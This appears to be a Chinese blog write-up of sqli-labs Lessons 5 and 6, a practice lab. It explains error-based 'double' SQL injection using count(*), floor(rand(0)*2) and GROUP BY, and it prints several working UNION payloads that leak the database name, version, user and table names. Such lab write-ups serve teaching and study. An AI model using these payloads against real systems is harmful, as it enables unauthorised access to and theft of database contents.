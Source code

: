 ```yaml
---
layout: post
title: sqli-labs Lesson-5-6 双重注入
subtitle: 
date: 2020-01-04
author: kevin
header-img: img/green-bg.jpg
catalog: true
tags:
    - sql
    - sql injection
    - security
---
```




## preface

这篇文章是 sqli-labs 的第五和第六关题解，都涉及到了基于报错的双重注入



## 开始做题



先按部就班吧，我们先找注入点，输入 `'` 后报错，根据报错信息确定了可能存在字符型注入

![error](https://i.loli.net/2020/01/06/7aAQW2wF85KdSXr.png)



然后就尝试闭合咯，屏幕输出 “ You are in ”

![you_are_in](https://i.loli.net/2020/01/06/C5NHWZ1mXP4ShEG.png)



接下去用 `order by` 爆破字段的个数，4 的时候报错，所以只有三个字段

![column_num](https://i.loli.net/2020/01/06/vexXI54PQiGTRmW.png)



再来看看会不会有字段显示出来，用 union 查询



不显示东西。。如果有记录的话就会显示 “you are in” ，没记录的话直接就报错了，这里我没办法了，上网看了别人的解决方案，学习到了一波新的知识



这种基于报错的但是页面又不显示出表的字段的 sql 注入都可以通过 sql 聚合函数和分组来回显报错信息，简单来说就是用 `count(*)` 、`rand()` 以及 `group by` 三个函数就可以将我们想要获取的信息通过报错的方式显示出来，具体原理以后再~~补~~（咕），不过这种方法只能用 limit 来一条一条输出，不能用 group_concat 来拼接



看下下面这个句子，这就是个标准的报错公式，rand() 函数生成一个 0-1 的随机数，floor() 的功能是向下取整，因此 floor(rand(0)*2)  就是 0 或者 1 ，看报错信息，这里说 entry 重复了

```sql
mysql> select count(*),floor(rand(0)*2) x from information_schema.tables group by x; 
ERROR 1062 (23000): Duplicate entry '1' for key 'group_key' 
```



我们用 concat 连接一下试试会发生什么

```sql
mysql> select count(*),concat('------',(floor(rand(0)*2))) x from information_schema.tables group by x; 
ERROR 1062 (23000): Duplicate entry '------1' for key 'group_key' 
```



可以看到，报错信息被改变了，也就是说我们的自定义字符串和原本报错的 entry 给拼接在了一起，我们就是利用这个特点来进行注入的，接下来就查询一下这张表所在的数据库

```sql
' union select 1, count(*),concat(database(),'-',floor(rand(0)*2))a from information_schema.tables group by a--+
```

![encode-error](https://i.loli.net/2020/01/06/ufxTUHknicoAYV8.png)



报错了，肯定是编码的问题。在网上查到解决办法，用 `binary()` 函数转化一下即可，然后就得到了数据库的名字

```sql
' union select 1, count(*),concat(binary(database()),'-',floor(rand(0)*2))a from information_schema.tables group by a--+
```

![database](https://i.loli.net/2020/01/06/hHFa2yRYSW3bGdz.png)



再查询相关信息，平台，数据库版本等

```sql
' union select 1, count(*),concat_ws('-', binary(@@version_compile_os), user(), version(),floor(RAND(0)*2))a from information_schema.tables group by a--+
```

![all-info](C:\Users\kevin\AppData\Roaming\Typora\typora-user-images\1578314974609.png)











' union select 1, count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 1,1),'-',floor(RAND(0)*2))a from information_schema.tables group by a--+



## reference



https://www.jianshu.com/p/8c2343705100

https://blog.51cto.com/obnus/532116

https://blog.csdn.net/baidu_37576427/article/details/76146974